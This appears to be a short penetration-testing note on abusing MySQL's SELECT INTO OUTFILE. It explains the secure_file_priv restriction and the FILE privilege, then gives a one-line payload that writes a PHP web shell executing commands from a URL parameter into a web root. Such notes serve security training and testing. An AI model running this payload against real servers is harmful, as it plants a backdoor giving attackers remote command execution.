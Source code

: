 ```yaml
---
tags:
  - Enumeration
  - TCP
  - MySQL
  - SQL
  - Concepts
---
```

If we have the appropriate privileges, we can attempt to write a file using [SELECT INTO OUTFILE](https://mariadb.com/kb/en/select-into-outfile/) in a local directory. See [[File include (LFI) (RFI)]] for remote code execution.

## Restrictions

In `MySQL`, a global system variable [secure_file_priv](https://dev.mysql.com/doc/refman/5.7/en/server-system-variables.html#sysvar_secure_file_priv) limits the effect of data import and export operations, such as those performed by the `LOAD DATA` and `SELECT … INTO OUTFILE` statements and the [LOAD_FILE()](https://dev.mysql.com/doc/refman/5.7/en/string-functions.html#function_load-file) function. These operations are permitted only to users who have the [FILE](https://dev.mysql.com/doc/refman/5.7/en/privileges-provided.html#priv_file) privilege.

`secure_file_priv` may be set as follows:
- If empty, the variable has no effect, which is not a secure setting.
- If set to the name of a directory, the server limits import and export operations to work only with files in that directory. The directory must exist; the server does not create it.
- If set to NULL, the server disables import and export operations.

```shell-session
show variables like "secure_file_priv";
```

## Usage

```shell-session
SELECT "<?php echo shell_exec($_GET['c']);?>" INTO OUTFILE '/var/www/html/webshell.php';
```
